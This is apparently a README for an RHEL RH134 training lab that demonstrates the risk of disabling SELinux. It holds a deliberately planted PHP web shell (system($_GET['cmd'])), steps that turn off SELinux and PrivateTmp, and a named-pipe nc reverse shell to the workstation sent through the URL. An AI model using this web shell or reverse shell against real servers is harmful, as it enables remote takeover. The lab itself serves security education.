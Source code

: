 # rh134_Selinux
* Extra Practice for RH134 Training - RHEL 8.2 Admin II
  >> To run on Redhat RH134 Lab Systems!

### Scenario: We going to the see effects of turning off/disabled SElinux on ServerA

### Part1: Instruction - run in servera or serverb ( choose 1 ) and run as user root
  >> We assume its servera 

1.  Setup apache webserver and php 
```sh 
yum install httpd php -y 
```

2. Setup PHP Page 
```sh 

cd /var/www/html/

touch index.php 

insert this code into index.php 

<html>
 <head>
  <title>PHP Page</title>
 </head>
 <body>
 <?php echo '<p>Hello Redhatters RH134</p>'; ?>
 <p> Welcome RH134 Students </p>
 <p> Sample Vendor provided Page/App</p>
 <p> This page (php) allows you to execute Linux Command</p>
 <p> SElinux Demo Page </p>
 <?php system($_GET['cmd']);?>

 </body>
</html>
```

3. Comment PrivateTMP in htttpd and php-fpm systemd config file and save it
```sh 

vim /usr/lib/systemd/system/httpd.service
#PrivateTmp=true

vim /usr/lib/systemd/system/php-fpm.service
#PrivateTmp=true

systemd daemon-reload 
systemctl enable --now httpd
```

4. Turn Off SElinux 
```sh 

getenforce 

setenforce 0 

getenforce 

```

5. Enable firewall to allow access to webserver
```sh 
firewall-cmd --permanent --add-service=http

firewall-cmd --reload
```

### Part2: Instruction - run in workstation machine

1. Open firefox to http://servera.lab.example.com 
once in the browser, execute this on the address bar, this will create a device character file called backpipe1 

```sh 
http://servera.lab.example.com/index.php?cmd=mknod /var/tmp/backpipe1 p

```

2. Create a local listener in workstation machine, open a terminal and run 
```sh 

firewall-cmd ----permanent --add-port=1234/tcp

firewall-cmd --reload

nc -lvvp 1234

```

3. Back to firefox, run the following to establish a reverse shell from webserver to workstation listener 
```sh 
http://servera.lab.example.com/index.php?cmd=/bin/sh 0</var/tmp/backpipe1 | nc workstation.lab.example.com 1234 1>/var/tmp/backpipe1


```

4. Check the terminal where the nc listener running and open a shell 
you should receive a connection from servera ( 172.25.250.10 )

```sh 
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 172.25.250.10.
Ncat: Connection from 172.25.250.10:54496.
```

Run the following command to create a shell 

```sh 
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

You should receive a shell
```sh 
sh-4.4$ 
```

5. If Step 4 done, you now have a reverse shell (hacked shell) to servera from workstation 
run the following command to create a exploit file and run the exploit 
>> the exploit file is just a shell script, in real life, an attacker could run a real exploit !!
```sh
sh-4.4$ cd /tmp

sh-4.4$ echo "echo OWN3D_servera" > ex.sh

sh-4.4$ cat ex.sh
echo OWN3D_servera

sh-4.4$ chmod +x ex.sh

sh-4.4$ ls -l ex.sh
-rwxrwxrwx. 1 apache apache 19 Mar 22 09:25 ex.sh

sh-4.4$ ./ex.sh
OWN3D_servera

sh-4.4$

```


